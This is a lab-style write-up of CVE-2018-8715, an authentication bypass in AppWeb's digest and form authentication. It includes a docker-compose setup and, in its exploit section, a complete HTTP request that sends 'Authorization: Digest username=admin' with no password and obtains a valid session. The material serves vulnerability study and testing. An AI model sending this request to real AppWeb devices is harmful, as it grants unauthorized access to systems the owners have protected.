 # AppWeb Authentication Bypass Vulnerability（CVE-2018-8715）

AppWeb is an embedded Web Server based on GPL open source protocol developed and maintained by Embedthis Software LLC. 

It is written in C / C ++ and can run on almost all popular operating systems. 

Of course, main application scenario is to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication. The authentication methods include the following three methods:

- `basic` - Traditional HTTP basic authentication
- `digest` - Improved HTTP basic authentication. After successful authentication, cookies will be used to save the state without passing the Authorization header.
- `form` -  authentication

In versions prior to 7.0.3, both digest and form authentication methods, if the user passed in a null password (no password parameter was passed), appweb will directly authenticate successfully due to a logical error and return to session.

Reference links:

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610

##  Vulnerability environment

Run the following command to start an appweb server with digest authentication:

```
docker-compose up -d
```

Visit http://your-ip:8080 , you can see that you need to enter your account password.

##  Exploit

To exploit this vulnerability, you need to know an existing user name. In the current environment, the user name is `admin`.

Construct the header **Authorization: Digest username=admin** and send the following data packet:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
```

Because we didn't pass in the password field, the server had encountered an error, responded with `200`, and included a session:

![](1.png)

Set this session to the browser, and you can access the page that needs authentication normally:

![](2.png)
